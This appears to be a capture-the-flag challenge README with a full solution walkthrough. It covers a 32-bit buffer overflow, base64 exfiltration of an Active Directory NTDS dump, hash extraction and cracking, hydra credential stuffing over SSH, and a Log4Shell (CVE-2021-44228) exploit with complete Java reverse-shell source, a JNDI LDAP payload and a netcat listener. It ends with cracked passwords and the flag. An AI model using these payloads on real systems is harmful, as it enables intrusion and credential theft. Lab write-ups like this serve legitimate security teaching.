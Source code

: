 # A Little Bit of Everything

## Authors

- Jarrod Cameron

## Category

- Misc

## Description

Just a simple buffer overflow. How hard can it be?

`nc uptoyou.ctf.secso.cc 5000`

and

`nc uptoyou.ctf.secso.cc 5001`

The flag is in the format `SKYLIGHT{...}`

## Difficulty

- Child's Play

## Points

300

## Files

- objdump.txt: Contains output of `objdump -d path/to/binary`

## Solution

<details>
<summary>Spoiler</summary>

### Idea

1. Exploit binary leveraging buffer overflow
2. Download and open zip file
3. Extract hashes
4. Crack hashes
5. Credential stuffing SSH interface
6. Reuse creds to authenticate to internal web service
7. Identifying the vulnerability
8. Exploiting Log4shell

### Walkthrough

#### 1. Binary Exploit

Looking at objdump we can see a few things:
- It's 32 bits
- There are not stack canaries
- `gets()` is called
- This is not a PIE binary (i.e. the functions are always the same location
  in memory)

Using the following script we overwrite the return address to jump to the
`win` function.

```bash
ip="$1"
port="$2"
cmd="$3"

{
        /bin/echo -e '\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08\xa6\x91\x04\x08'
        echo "$cmd"
} | nc -v "$ip" "$port"
```

This is not the best script I've written but it gets the job done.

Using this script:

```
$ bash hak.sh 127.0.0.1 5555 'ls -l /ctf'
Connection to 127.0.0.1 5555 port [tcp/*] succeeded!
Please enter your name
!ello
total 16
-rw-r----- 1 root step4   62 Jul 12 14:04 flag.txt
drwxr-xr-x 1 root root  4096 Jul 12 19:51 step1
drwxr-x--- 1 root step2 4096 Jul 12 19:51 step2
drwxr-x--- 1 root step3 4096 Jul 12 19:52 step3
```

Well that was easy!

#### 2. Downloading Zip File

After looking around we can tell that we are very limited in our access, but
we can view the contents of `/ctf/step2/':

```bash
$ bash step1.sh 127.0.0.1 5555 'ls -l /ctf/step2'
Connection to 127.0.0.1 5555 port [tcp/*] succeeded!
Please enter your name
!ello
total 15684
-rw-r----- 1 root step2 16054502 Jul  7 01:01 NTDS.zip
-rw-r----- 1 root step2      216 Jul 11 05:29 README.md
```
`

We can download the NTDS.zip file:

```
$ bash step1.sh 127.0.0.1 5555 'base64 /ctf/step2/NTDS.zip' > NTDS.zip64
Connection to 127.0.0.1 5555 port [tcp/*] succeeded!
^C


# Remove the first few lines
$ vim NTDS.zip64

$ base64 -d NTDS.zip64 > NTDS.zip
$ unzip NTDS.zip
Archive:  NTDS.zip
   creating: skylightNTDS/Active Directory/
  inflating: skylightNTDS/Active Directory/ntds.dit
  inflating: skylightNTDS/Active Directory/ntds.jfm
   creating: skylightNTDS/registry/
  inflating: skylightNTDS/registry/SECURITY
  inflating: skylightNTDS/registry/SYSTEM
```

#### 3. Extracting the Hashes

These files contain information about the "sky.com" domain. For example,
the `NTDS.dit` will contain user information such as "which user belongs to
what group" and "when did this user create their account"?

Interestingly the hashes for the user's passwords can be extracted:

```
~/skylightNTDS# git clone https://github.com/SecureAuthCorp/impacket.git
Cloning into 'impacket'...
remote: Enumerating objects: 21919, done.
remote: Counting objects: 100% (74/74), done.
remote: Compressing objects: 100% (65/65), done.
remote: Total 21919 (delta 36), reused 25 (delta 9), pack-reused 21845
Receiving objects: 100% (21919/21919), 7.71 MiB | 7.13 MiB/s, done.
Resolving deltas: 100% (16737/16737), done.

~/skylightNTDS# cd impacket

~/skylightNTDS/impacket# python3 setup.py install
...
snip
...

~/skylightNTDS/impacket# python3 examples/secretsdump.py \
        -ntds '../Active Directory/ntds.dit' \
        -system ../registry/SYSTEM \
        -outputfile hashes.txt \
        LOCAL
```

The last command will dump the hashes of the users passwords to the file
"hashes.txt.ntds".

#### 4. Cracking the Hashes

Most of the information isn't very important and won't help us. What we are
looking for are the user's hashes we can be found in "hashes.txt.ntds".

Firstly, we should get a password list. We will pass this list to our cracking
tool to attempt to crack the hashes. A common password list is the
_rockyou.txt_ list:

```bash
wget 'https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt'
```

Using our wordlist, we can use `hashcat` to crack the hashes:

```bash
hashcat -a 0 hashes.txt.ntds rockyou.txt --output cracked.txt --username --show
```

#### 5. Credential stuffing SSH interface

We have our list of possible passwords and need to see which one lets us
connect to the SSH interface. Ideally our cracked passwords should be in a
`:`-separated list, however the list is a little messy:

```bash
$ cat cracked.txt
sky.com\YVETTE_HINES:07828c36297d3e0080fa3dfaa440f543:debbie
sky.com\ROBT_NGUYEN:78825e3e38514100c230fc211c6b2f43:aurelia
sky.com\NELL_ALEXANDER:61942efc55cda100301a7e7779b9f656:RICHARD
sky.com\6783547731SA:807e92324852a700bc4a7305980ab85a:corona1
...
```

To clean up the credentials we can use the following on liner:

```bash
$ awk -F: '{print $1 ":" $3}' cracked.txt | sed 's/^sky\.com\\//g' > creds.txt

$ cat creds.txt
YVETTE_HINES:debbie
ROBT_NGUYEN:aurelia
NELL_ALEXANDER:RICHARD
6783547731SA:corona1
...
```

Using `hydra` we can brute force the SSH interface:

```bash
$ hydra -t 4 -C creds.txt ssh://127.0.0.1:5556
...
[5556][ssh] host: 127.0.0.1   login: PERRY_MENDEZ   password: soccer15
...
```

From the above output we can see the username is `PERRY_MENDEZ` and the
password is `soccer15`.

#### 6. Reuse creds to authenticate to internal web service

We can ssh into the machine with the following command:

```bash
# Password is "soccer15"
ssh -p 5556 PERRY_MENDEZ@127.0.0.1
```

After some looking around for what to do next we can see there is a web
service running locally on port 8080:

```
$ netstat -lant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:8005          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:8009            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:5555            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:5556            0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.2:5556         172.17.0.1:38368        ESTABLISHED
tcp6       0      0 :::5556                 :::*                    LISTEN

$ curl -i http://127.0.0.1:8080
HTTP/1.1 302 Found
...
```

Using the following command we can view the internal web service from our
browser:

```
ssh -v -N -L 8080:localhost:8080 -p 5556 PERRY_MENDEZ@127.0.0.1

# Then navigate to http://localhost:8080 on your browser
```

We can retry the credentials `PERRY_MENDEX/soccer15` and we are logged in!

#### 7. Identifying the vulnerability

Once we are logged we are presented with a prompt to log a line. But what does
this mean? How does this help us?

Inside of `/ctf/step3` there is a file called `source.zip`. Looking inside the
zip file we can see some `.jsp` files. `.jsp` files are templates that are
served to the user when a web request is performed. From looking at the HTML
in the `.jsp` files and the website presented to us in our browser, it looks
like this is the source code for the application!

The `source` directory also contains a `pom.xml` file. `pom.xml` is used to
tell maven (Java's package manager) what packages and which version to
download. NOTE: This is like "pip" and "requirements.txt" in python-land.

There are two packages of interest in the `pom.xml` file:

```xml
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>

        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
```

Without being a Java expert, it looks obvious that this application is using
Log4j version 2.14.1. This is an outdated package vulnerable to Log4Shell
(CVE-2021-44228), allowing an attacker to gain remote code execution.

Inside of `success.jsp` (the page we are redirected to when we log in) we can
see the following code corresponding to our prompt from the previous step:

```html
<form action="logme.jsp" method="post">
        Insert Line to Log<input type="text" name="line" value="" />
        <input type="submit">
</form>
```

And inside of `logme.jsp`:

```java
String line = request.getParameter("line");

Configurator.setRootLevel(Level.ALL);

Logger logger = LogManager.getLogger("HelloWorld");
logger.info(line);
```

The above code will take our line and send it straight to the logger. Since we
control the input, can can exploit the Log4shell vulnerability.

#### 8. Exploiting Log4shell

A high level explanation of how to exploit Log4shell:

1. Attacker sends payload to victim (e.g. `${jdni:ldap://$IP:$PORT/}`) which
   will get logged (e.g. via `logger.info(line)`)

2. Victim sends LDAP request to LDAP server (controlled by the attacker). LDAP
   server returns a reference to the attacker controlled HTTP server.

3. Attacker returns a compiled Java file to be executed on the victim.

Firstly, let's setup the LDAP server. This should be on your local machine and
then finally copied to the victim's machine. Creating the LDAP server can be
done with:

```bash
git clone 'https://github.com/mbechler/marshalsec'
cd marshalsec
mvn clean package -DskipTests
```

This will create LDAP server called `marshalsec-0.0.3-SNAPSHOT-all.jar`.

Next, let's create the compiled Java program:

```java
// Log4j compatibility
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

// For the revshell
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit implements ObjectFactory {

	// Source: https://www.revshells.com/
	static {
		String host = "127.0.0.1";
		int port = 8888;
		String[] cmd = {"/bin/bash"};
		try {
			Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
			Socket s = new Socket(host, port);
			InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
			OutputStream po = p.getOutputStream(), so = s.getOutputStream();
			while (!s.isClosed()) {
				while (pi.available() > 0)
					so.write(pi.read());
				while (pe.available() > 0)
					so.write(pe.read());
				while (si.available() > 0)
					po.write(si.read());
				so.flush();
				po.flush();
				Thread.sleep(50);
				try {
					p.exitValue();
					break;
				} catch (Exception e) {}
			}
			p.destroy();
			s.close();
		}
		catch (Exception e) {
			e.printStackTrace();
		}
	}

	@Override
	public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws
	Exception {
		return new Exploit();
	}
}
```

This can be compiled using `javac Exploit.java`.

To exploit this vulnerability copy `Exploit.class` and
`marshalsec-0.0.3-SNAPSHOT-all.jar` onto the victim's server in the same
directory. To run the LDAP server:

```bash
java \
    -cp marshalsec-0.0.3-SNAPSHOT-all.jar \
    marshalsec.jndi.LDAPRefServer \
    'http://127.0.0.1:8000/#Exploit' 1389
```

This will listen for LDAP requests on port `1389` and reference our class file
on `http://127.0.0.1:8000/#Exploit`.

To create a HTTP server, simply run `python3 -m http.server`.

Our exploit should create a reverse shell to port 8888 on `localhost`, so
find another terminal and run `nc -lvnp 8888`.

Now that the infrastructure is in place, deploy the payload in the web
application: `${jndi:ldap://127.0.0.1:1389/Exploit}`. We should get a reverse
shell as the `tomcat` user which can be used to read the flag!

```
PERRY_MENDEZ@f1e0a75d7a0d:/$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48872
whoami
tomcat
id
uid=1481(tomcat) gid=1481(tomcat) groups=1481(tomcat),1000(step1),1001(step2),1002(step3),1003(step4)
cat /ctf/flag.txt
SKYLIGHT{Ev3RY_HaXor_n33ds_2_KN0w_A_L1TTl3_b1T_0F_3vEr|tHLNg}
```

### Flag

```
SKYLIGHT{Ev3RY_HaXor_n33ds_2_KN0w_A_L1TTl3_b1T_0F_3vEr|tHLNg}
```

</details>

